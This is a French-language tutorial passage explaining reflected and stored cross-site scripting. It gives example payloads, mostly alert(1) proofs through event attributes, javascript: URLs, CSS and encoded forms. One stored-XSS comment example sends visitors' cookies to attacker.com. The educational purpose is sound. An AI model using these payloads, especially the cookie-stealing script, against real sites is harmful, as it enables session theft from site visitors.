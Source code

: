 ##### Reflected XSS (XSS réfléchi)

Le XSS réfléchi se produit lorsque l'application renvoie immédiatement l'entrée utilisateur dans la réponse.

**Exemple** :
```
https://example.com/search?q=test
```

Si le site affiche "Résultats pour: test" sans échapper correctement l'entrée, on peut injecter :
```
https://example.com/search?q=<script>alert('XSS')</script>
```

**Caractéristiques** :
- Non persistant (une seule requête)
- Nécessite que la victime clique sur un lien malveillant
- Souvent trouvé dans les formulaires de recherche, messages d'erreur, redirections

##### Stored XSS (XSS stocké)

Le XSS stocké se produit lorsque l'entrée malveillante est stockée dans la base de données et affichée à chaque visiteur ultérieur.

**Exemple** : Commentaire sur un blog
```html
Excellent article !<script>document.location='https://attacker.com/steal.php?cookie='+document.cookie</script>
```

**Caractéristiques** :
- Persistant (affecte tous les visiteurs)
- Plus dangereux car ne nécessite pas d'action spécifique de la victime
- Souvent trouvé dans les forums, commentaires, profils utilisateurs

#### Vecteurs d'injection courants

Les XSS ne se limitent pas aux balises `<script>`. Voici d'autres vecteurs :

1. **Attributs d'événements** :
   ```html
   <img src="x" onerror="alert(1)">
   <body onload="alert(1)">
   ```

2. **Balises avec JavaScript** :
   ```html
   <img src="javascript:alert(1)">
   <iframe src="javascript:alert(1)">
   ```

3. **CSS avec JavaScript** :
   ```html
   <div style="background-image: url('javascript:alert(1)')">
   <style>@import 'javascript:alert(1)'</style>
   ```

4. **Encodages alternatifs** :
   ```html
   <script>eval(atob('YWxlcnQoMSk='))</script>
   <script>\u0061\u006c\u0065\u0072\u0074(1)</script>
   ```
